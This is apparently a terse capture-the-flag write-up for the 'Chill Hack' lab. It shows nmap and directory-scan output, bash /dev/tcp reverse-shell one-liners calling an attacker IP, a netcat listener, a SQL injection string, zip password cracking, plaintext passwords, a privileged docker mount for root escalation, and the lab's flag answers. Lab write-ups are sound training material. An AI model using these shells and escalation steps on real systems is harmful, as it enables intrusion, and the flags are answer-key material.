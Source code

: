 # Chill Hack

* IP = 10.10.175.103

## Enumerating And Scanning:

* Nmap scan to discover open ports:
`nmap -sC -sV -vv $IP`
* **Nmap Scan Results:**
```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
|   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* FTP Anonymous login is permitted i.e. Login to FTP server with `anonymous` username and no password is allowed.
*

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

```
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/secret (Status: 301)
/server-status (Status: 403)
=====================================================
2022/07/30 19:12:47 Finished
=====================================================
```
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Exploitation/Gaining Access:

`bash -i >& /dev/tcp/10.4.50.128/7777 0>&1`
`/bin/bash -c '/bin/bash -i >& /dev/tcp/10.4.50.128/7777 0>&1'`
`nc -lnvp 7777`
`sudo -u apaar /home/apaar/.helpline.sh`
`netstat -anlp | grep LISTEN`
`ssh -i id_rsa apaar@10.10.175.103 -L 9001:127.0.0.1:9001`

`admin' or 1=1 --`
`fcrackzip -D -u -p ../../../New\ Vol\(F\)/rockyou.txt backup.zip`
`pass1word`
`!d0ntKn0wmYp@ssw0rd`

```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```
`docker run --rm -it --privileged -v /:/mnt alpine`

## Post Exploitation

## Privilege Escalation

```yaml
anurodh ALL=(ALL) NOPASSWD: ALL
```

## Questions/Tasks:

1. User Flag:

**Ans-{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

2. Root Flag:

**Ans-{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
